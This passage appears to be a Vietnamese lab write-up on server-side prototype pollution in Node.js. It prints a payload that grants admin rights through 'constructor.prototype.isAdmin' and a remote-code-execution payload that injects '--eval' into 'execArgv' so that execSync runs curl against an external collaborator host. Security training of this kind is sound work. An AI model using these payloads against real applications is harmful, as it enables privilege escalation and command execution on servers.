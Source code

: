 ⇒ Thành công

Payload nâng quyền admin:

```jsx
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

### 4. Remote code execution via server-side prototype pollution

![image.png](Images/image%2023.png)

⇒ Thêm được property `foo` vào prototype ⇒ Source Prototype Pollution

Vào Admin Panel ⇒ Run maintenance jobs.
Các tác vụ này dọn dẹp cơ sở dữ liệu và hệ thống tệp, đây là dấu hiệu rằng ứng dụng có thể đang chạy lệnh hệ thống 

`child_process.fork()` tạo tiến trình con và sử dụng `execArgv` để truyền tham số dòng lệnh. Nếu `execArgv` bị kiểm soát, kẻ tấn công có thể chèn `--eval` để chạy mã JavaScript.
Thử sửa `Object.prototype` để chèn thuộc tính `execArgv`, với tham số `--eval` để gọi `execSync()` 

```jsx
"__proto__": {
  "execArgv": [
    "--eval=require('child_process').execSync('curl https://26690g3azx5vuy03rjwh4o69l0rrfh36.oastify.com')"
  ]
}
```

Gửi request, sau đó vào Admin Panel và chạy lại maintenance jobs.
